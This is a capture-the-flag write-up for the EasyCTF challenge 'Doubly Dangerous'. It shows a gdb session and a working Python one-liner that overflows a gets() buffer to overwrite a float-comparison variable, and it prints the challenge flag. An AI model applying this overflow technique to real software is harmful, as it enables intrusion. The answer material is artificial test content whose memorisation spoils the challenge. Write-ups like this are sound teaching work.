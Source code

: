 # Doubly Dangerous - 110 Points

#### phsst - VoidMercy's writeup

We were given a binary.

We first run it to see what it does

```
Give me a string: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
nope!
Segmentation fault
```

Seems like a buffer overflow because there was a segmentation fault. This means gets() was probably used, and gets() does not care about the length of the string we input. Now let's take a look at the code in gdb with

```
gdb doubly_dangerous
set disassembly-flavor intel
disas main
```

Here is the interesting instruction:

```
0x0804863c <+53>:    fld    DWORD PTR [ebp-0xc]
0x0804863f <+56>:    fld    DWORD PTR ds:0x804876c
0x08048645 <+62>:    fucomip st,st(1)
```

We can see that fucomip is being used, which is floating point instructions. We surmise that we need to make this compare return true. We can see that the value at 0x804876c is being compared to the value at ebp-0xc. Because we saw a segmentation fault, we know this consists of an overflow. We experiment with the amount of bytes to type until the value at ebp-0xc is overflowed.

```
python -c "print 'A'*69" > temp

(gdb) r < temp
...
Breakpoint 1, 0x08048686 in main ()
(gdb) x/10wx $ebp-0xc
0xffffd0dc:     0x41414141      0xf7fc0041      0xffffd100      0x00000000
0xffffd0ec:     0xf7e31a83      0x08048690      0x00000000      0x00000000
0xffffd0fc:     0xf7e31a83      0x00000001
```

Alright, we can see that 69 characters overflows the content at ebp-0xc and 1 extra character. This means we need 64 characters to get the ebp-0xc, and then with the next four characters, we can control what value to place in $ebp-0xc. Now, we need to check what value to replace it with.

```
(gdb) x/10wx 0x804876c
0x804876c:      0x41348000      0x3b031b01      0x00000030      0x00000005
0x804877c:      0xfffffc60      0x0000004c      0xfffffe0b      0x00000070
0x804878c:      0xfffffe97      0x00000090
```

We can see the value we need is 0x41348000. Now we can construct our exploit.

```
python -c "print 'A'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
```

```
python -c "print 'A'*64 + '\x00\x80\x34\x41'" | ./doubly_dangerous
Give me a string: 
Success! Here is your flag:
easyctf{bofs_and_floats_are_d0uble_tr0uble!}
```

## Flag

>easyctf{bofs_and_floats_are_d0uble_tr0uble!}
